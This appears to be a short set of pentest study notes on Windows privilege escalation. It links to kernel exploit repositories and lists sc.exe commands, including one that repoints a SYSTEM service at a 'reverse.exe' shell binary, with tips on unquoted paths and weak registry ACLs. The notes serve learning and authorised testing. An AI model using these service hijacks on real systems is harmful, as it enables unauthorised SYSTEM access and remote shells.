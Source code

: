 Windows Exploit Suggester
https://github.com/bitsadmin/wesng

Precompiled Kernel Exploits
https://github.com/SecWiki/windows-kernel-exploits

watson: https://github.com/rasta-mouse/Watson


## Services exploits
Query the configuration of a service
```
sc.exe qc <name>
```

Query the current status of a service:
```
sc.exe query <name>
```

Modify a configuration option of a service
```
sc.exe config <name> <option>= <value>
```

Start/stop a service
```
net start/stop <name>
```

### Insecure Service Permissions
Each service has an ACL which defines certain service-spefic permissions.

If the user has permission to change the configuration of a service which runs with System Privileges, we can change the executable the service uses to on of our own

**Potential Rabbit Hole**  If you can change the service configuration but cannot start/stop the service, you may not be able to escalate privileges

```
sc config <service> binpath="\"C:\PrivEsc\reverse.exe\""
net start <service>
```

### Unquoted Service Path
for example:
C:\Pogram Files\Some Dir\SomeProgam.exe  

can be highjacked by added an exe where spaces are
we can create a file in c:\Progam File\Some.exe and the service will call our exe

### Weak Registry Permissions
The Windows registry stores entries for each service.
Since registry entried can have ACLs, if the ACLs is misconfigured, it may be possible to modify a service's configuration even if we cannot modify the service directly.

```
Use Winpeas to find registry entry
reg query
reg edit
Change the path that registry key is pointing to
```
